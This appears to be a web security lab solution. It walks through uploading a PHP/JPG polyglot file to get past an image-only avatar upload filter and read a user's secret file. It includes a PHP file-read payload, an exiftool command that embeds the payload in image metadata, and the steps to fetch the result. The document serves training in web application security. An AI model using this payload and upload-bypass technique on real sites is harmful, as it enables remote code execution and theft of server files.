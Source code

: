 1. On your system, create a file called ``exploit.php`` containing a script for fetching the contents of Carlos's secret. For example:
```
<?php echo file_get_contents('/home/carlos/secret'); ?> 
```
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
This adds your PHP payload to the image's Comment field, then saves the image with a ``.php`` extension. 
4. In your browser, upload the polyglot image as your avatar, then go back to your account page. 
5. In Burp's proxy history, find the ``GET /files/avatars/polyglot.php`` request. Use the message editor's search feature to find the ``START`` string somewhere within the binary image data in the response. Between this and the ``END`` string, you should see Carlos's secret, for example:
``START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END``
6. Submit the secret to solve the lab. 

